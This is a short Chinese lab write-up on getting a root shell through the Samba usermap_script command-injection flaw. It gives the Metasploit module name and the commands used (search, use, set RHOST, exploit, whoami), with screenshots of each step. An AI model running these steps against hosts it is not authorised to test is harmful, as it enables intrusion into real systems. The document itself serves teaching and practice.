 ```yaml
---
title: samba提权
date: 2021-12-20 17:46:48
tags: samba 提权
---
```


## samba提权

### 利用samba漏洞，获得目标主机root权限

#### 原理:Samba中负责在SAM数据库更新用户口令的代码未经过滤便将用户输入传输给了/bin/sh。如果在调用smb.conf中定义的外部脚本时，通过对/bin/sh的MS-RPC调用提交了恶意输入的话，就可能允许攻击者以nobody用户的权限执行任意命令。

#### 过程：

确定目标存在`445`和`139`端口开放，使用msf，输入命令`search samba`

![image-20211220184011444](https://gitee.com/oxchang/img-host/raw/master/samba提权/image-20211220184011444.png)

使用命令`use exploit/multi/samba/usermap_script`，启用漏洞利用模块，终端输入`info`，查看相关信息

![image-20211220184341512](https://gitee.com/oxchang/img-host/raw/master/samba提权/image-20211220184341512.png)

输入`set RHOST ip`,设置目标ip地址，输入`exploit`，开始攻击，攻击成功后，建立会话

![image-20211220190130652](https://gitee.com/oxchang/img-host/raw/master/samba提权/image-20211220190130652.png)

输入`whoami`查看权限，输入`ifconfig`，查看系统网络信息

![image-20211220190258566](https://gitee.com/oxchang/img-host/raw/master/samba提权/image-20211220190258566.png)

实验完成


